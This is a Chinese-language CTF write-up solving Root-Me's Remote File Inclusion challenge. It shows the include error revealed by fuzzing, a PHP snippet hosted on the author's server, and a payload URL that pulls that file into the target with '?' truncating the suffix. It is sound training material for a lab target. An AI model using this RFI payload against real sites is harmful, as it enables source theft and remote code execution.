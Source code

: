 Root-Me [Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
===

提供一個頁面，有語言切換的功能。

## 解題關鍵
1. Fuzz Testing
2. PHP
3. RFI

## 提示訊息
```
Get the PHP source code.
```

## 解題方法
首先有 `Français` 與 `English` 兩種語言，那麼嘗試切換可以看到 URL 的變化 `lang=fr`、`lang=en`，隨後嘗試改為 `MksYi` 後，出現錯誤如下。  

```
Warning: include(MksYi_lang.php): failed to open stream: No such file or directory in /challenge/web-serveur/ch13/index.php on line 18 Warning: include(): Failed opening 'MksYi_lang.php' for inclusion (include_path='.:/usr/share/php') in /challenge/web-serveur/ch13/index.php on line 18
```

可以發現 `include(MksYi_lang.php)`，顯然該部分程式碼為 `include($_GET['input'] . '_lang.php')`，但該題的題目為 RFI，所以是外部引入的概念，可以在外部伺服器先建立一個 `xxx_lang.php` 的檔案，並且讀取本地端的 `index.php` 檔案。  

首先我在自己的 Server 端創建檔名為 `MksYi_lang.php` 的 PHP，程式碼內容如下，功能是檢視 `index.php` 這個檔案。  

```PHP
<?php 
    echo file_get_contents('index.php');
?>
```

原本以為 Rootme 那邊會引入該程式碼，便在本地執行，結果如下...，本地端也有檔名為 `index.php` 的檔案，所以是將內容解析過後，才 `include` 到 Rootme 中，出乎預料之外阿。  

![](img/01.png)  

解決辦法是 `?`，沒錯就是 `?`，在 RFI 中，引入的 php 會先被遠端 php 解析，為了避免這樣的狀況，是必要遞送純文字的 PHP 程式碼，但由於後輟為 `_lang.php`，是必要截斷才能達成預期的結果。  

可以透過 `?` 來做截斷，首先我先將檔名改為 `MksYi.txt`，檔案的內容與上頭一致，沒有作任何更動，接著 Pyaload 如下。  

```
http://challenge01.root-me.org/web-serveur/ch13/?lang=http://mks.lionfree.net/MksYi.txt?
```

檢視原始碼後，即可發現 Flag，解決該題。  

![](img/02.png)  

## Reference
https://www.puritys.me/docs-blog/article-181-PHP-Remote-File-Inclusion.html

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
